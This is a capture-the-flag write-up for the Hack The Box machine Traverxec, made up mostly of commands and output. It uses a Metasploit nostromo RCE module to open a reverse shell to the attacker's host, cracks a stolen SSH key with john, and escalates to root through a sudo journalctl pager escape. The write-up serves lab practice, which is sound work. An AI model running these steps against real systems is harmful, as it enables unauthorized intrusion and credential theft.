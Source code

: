 ```yaml
---
date: 2020-04-23
title: "HTB ~ Traverxec"
published: true
---
```

<br>
<center>
<img src='assets/traverxec/traverxec.jpg'>
</center>

Today we will be doing Traverxec from Hack the Box. The box was rated easy and good for beginners to practice pentesting skills. The box had an IP address of 10.10.10.165. For the initial foothold we had to exploit a webserver that was vulnerable to remote code execution and get a reverse shell back in our machine. For root the user David had privilege to execute journalctl as root we leveraged that to get root in the box. With that said let’s jump in.<br><br>

We begin our reconnaissance by running a port scan with Nmap, checking default scripts and testing
for vulnerabilities.

```
m1m3@kali:~/Documents/htb/traverxec$ nmap -sC -sV -oA nmap/traverxec 10.10.10.165
Starting Nmap 7.80 ( https://nmap.org ) at 2020-03-25 04:02 IST
Nmap scan report for 10.10.10.165
Host is up (0.27s latency).
Not shown: 998 filtered ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.9p1 Debian 10+deb10u1 (protocol 2.0)
| ssh-hostkey: 
|   2048 aa:99:a8:16:68:cd:41:cc:f9:6c:84:01:c7:59:09:5c (RSA)
|   256 93:dd:1a:23:ee:d7:1f:08:6b:58:47:09:73:a3:88:cc (ECDSA)
|_  256 9d:d6:62:1e:7a:fb:8f:56:92:e6:37:f1:10:db:9b:ce (ED25519)
80/tcp open  http    nostromo 1.9.6
|_http-server-header: nostromo 1.9.6
|_http-title: TRAVERXEC
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 38.14 seconds
```

We see that the port 80 is open an it is running `nostromo 1.9.6`. Looking at the port 80, we have a static website with nothing useful.

<br><br>

## Initial Foothold:
Now lets look on searchsploit if we have a vulnerable version of nostromo

```
m1m3@kali:~/Documents/htb/traverxec$ searchsploit nostromo
--------------------------------------------------------- ----------------------------------------
 Exploit Title                                           |  Path
                                                         | (/usr/share/exploitdb/)
--------------------------------------------------------- ----------------------------------------
Nostromo - Directory Traversal Remote Command Execution  | exploits/multiple/remote/47573.rb
nostromo 1.9.6 - Remote Code Execution                   | exploits/multiple/remote/47837.py
nostromo nhttpd 1.9.3 - Directory Traversal Remote Comma | exploits/linux/remote/35466.sh
--------------------------------------------------------- ----------------------------------------
Shellcodes: No Result
```

We have RCE available. Lets use the metasploit for it.

```
msf5 > search nostromo

Matching Modules
================

   #  Name                                   Disclosure Date  Rank  Check  Description
   -  ----                                   ---------------  ----  -----  -----------
   0  exploit/multi/http/nostromo_code_exec  2019-10-20       good  Yes    Nostromo Directory Traversal Remote Command Execution


msf5 > use exploit/multi/http/nostromo_code_exec 
msf5 exploit(multi/http/nostromo_code_exec) > set RHOSTS 10.10.10.165
RHOSTS => 10.10.10.165
msf5 exploit(multi/http/nostromo_code_exec) > set LHOST tun0
LHOST => tun0
msf5 exploit(multi/http/nostromo_code_exec) > exploit

[*] Started reverse TCP handler on 10.10.14.115:4444 
[*] Configuring Automatic (Unix In-Memory) target
[*] Sending cmd/unix/reverse_perl command payload
[*] Command shell session 1 opened (10.10.14.115:4444 -> 10.10.10.165:49476) at 2020-03-25 04:18:35 +0530
```


We get a TCP reverse shell which we can turn into a pty shell using:

```python
python -c 'import pty;pty.spawn("/bin/bash")'
```

If we type `id` we get the user of the shell:

```
www-data@traverxec:/usr/bin$ id
id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```
<br><br>

## User Shell:

With some enumeration we can find the nostromo config file at `/var/nostromo/conf` which reveals a public home directory.

```
www-data@traverxec:/var/nostromo/conf$ cat nhttpd.conf

# HOMEDIRS [OPTIONAL]

homedirs          /home
homedirs_public   public_www
```

Based on the config file, I am guessing that david is going to have a sub directory named public_www, so let’s see if we can get a directory listing of /home/david/public_www

```
www-data​ @traverxec​ :/var/nostromo/htdocs​ $ ​ ls /home/david/public_www -lah
ls /home/david/public_www -lah
total ​ 16​ K
drwxr-xr-x ​ 3 ​ david david ​ 4.0​ K Oct ​ 25​ ​ 15​ : ​ 45​ .
drwx--x--x ​ 5 ​ david david ​ 4.0​ K Oct ​ 25​ ​ 17​ : ​ 02​ ..
-rw-r--r-- ​ 1 ​ david david ​ 402​   Oct ​ 25​ ​ 15​ : ​ 45​ index.html
drwxr-xr-x ​ 2 ​ david david ​ 4.0​ K Oct ​ 25​ ​ 17​ : ​ 02​ protected-file-area
```

After looking inside the `protected-file-area` I found a `backup-ssh-identity-files.tgz`. After copying it to my machine, I found the private ssh key for David. We can now use john to crack the key and ssh into the box.

```
m1m3@kali:~/Documents/htb/traverxec$ /usr/share/john/ssh2john.py id_rsa > id_rsa.txt
m1m3@kali:~/Documents/htb/traverxec$ john id_rsa.txt

Press 'q' ​ or​ Ctrl-C ​ to​ abort, almost any other key for status
hunter      (david)
Session completed
```

Hurray! We found the key for David. Now lets ssh into the box and grab the user flag.

```
m1m3@kali:~/Documents/htb/traverxec$ ssh -i id_rsa david@10.10.10.165
Enter passphrase for key 'id_rsa': 
Linux traverxec 4.19.0-6-amd64 #1 SMP Debian 4.19.67-2+deb10u1 (2019-09-20) x86_64

david@traverxec:~$ id
uid=1000(david) gid=1000(david) groups=1000(david)

david@traverxec:~$ wc -c user.txt
33 user.txt
```
<br><br>

## Root Shell:

The first thing I noticed when I got the user when doing privilege escalation is there is a bin directory inside David’s home directory it has a file called server-stats.sh. 

```
david@traverxec:~/bin$ cat server-stats.sh 
#!/bin/bash

cat /home/david/bin/server-stats.head
echo "Load: `/usr/bin/uptime`"
echo " "
echo "Open nhttpd sockets: `/usr/bin/ss -H sport = 80 | /usr/bin/wc -l`"
echo "Files in the docroot: `/usr/bin/find /var/nostromo/htdocs/ | /usr/bin/wc -l`"
echo " "
echo "Last 5 journal log lines:"
/usr/bin/sudo /usr/bin/journalctl -n5 -unostromo.service | /usr/bin/cat
```

Last line of the script tells us that david can run `/usr/bin/journalctl` with sudo. So I went to [GTFO bin’s](https://gtfobins.github.io/gtfobins/journalctl/) and exploited the less prompt that opens up as sudo using this `!/bin/bash`.

```
david@traverxec:/dev/shm$ ./server-stats.sh
!/bin/sh
# id
uid=0(root) gid=0(root) groups=0(root)
# wc -c /root/root.txt
33 root.txt
```

That’s it! Thanks for reading! Make sure to stay tuned for more upcoming Hack The Box writeups!